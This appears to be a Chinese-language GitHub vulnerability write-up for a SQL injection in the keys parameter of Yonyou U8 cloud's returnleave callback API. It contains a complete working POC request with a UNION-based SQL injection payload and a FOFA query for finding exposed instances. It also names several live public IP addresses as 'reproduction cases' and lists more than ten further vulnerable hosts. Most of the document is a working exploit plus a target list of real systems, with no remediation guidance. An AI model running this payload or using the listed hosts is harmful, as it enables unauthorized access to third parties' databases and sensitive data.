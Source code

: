 <img width="865" height="458" alt="image" src="https://github.com/user-attachments/assets/160c4011-3923-4778-897e-64f491944300" /># -U8cloud-returnleave-keys-SQL-

用友网络科技有限公司用友U8cloud系统returnleave接口keys参数存在前台SQL注入漏洞
用友网络科技股份有限公司U8 cloud是用友推出的新一代云ERP，主要聚焦成长型、创新型企业，提供企业级云ERP整体解决方案。该系统前台/u8cloud/api/hrta/returnleave/callback路径keys参数存在sql注入漏洞，可直接执行sql语句获取系统敏感信息
注：非/u8cloud/api/hrta/returnaway/callback 接口
二、资产测绘
fofa：app="用友-U8-Cloud"
 
厂商信息：
用友网络科技股份有限公司
https://yonyou.com/

POC：
POST /u8cloud/api/hrta/returnleave/callback HTTP/1.1
Host: 47.108.25.40:8089
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
system: 1
content-type: application/json
trantype: code
isEncrypt: N
needStackTrace: Y
Cookie: JSESSIONID=A6B682CF2E64D920760B5FF4F72EFCE7.server
Connection: keep-alive
{
  "pk_proposer": "1",
  "keys": ["1') UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CHAR(113)+CHAR(98)+CHAR(120)+CHAR(106)+CHAR(113)+ISNULL(CAST(@@VERSION AS VARCHAR(4000)),CHAR(32))+CHAR(113)+CHAR(118)+CHAR(122)+CHAR(98)+CHAR(113),NULL,NULL-- CLgo"]
}
3 漏洞复现
案例1
http://47.108.25.40:8089/
 
测试获取当前数据库版本
 
案例2
http://47.103.8.30:8080/
 
获取当前数据库版本：
 
案例3
http://121.36.14.252:8888/
 
获取当前数据库版本
 
案例4
http://59.46.243.218:9080/
 
 
案例5
http://47.104.18.157:8888/
 
 
Fofa导出全网其余案例如下：
82.157.6.70
58.214.5.132:7078
60.217.78.22:83
1.116.164.133:8080
101.201.66.195:8086
119.167.82.246:8092
120.224.39.235:18080
49.7.61.142:7777
114.221.200.175:8858
124.70.84.131:8889

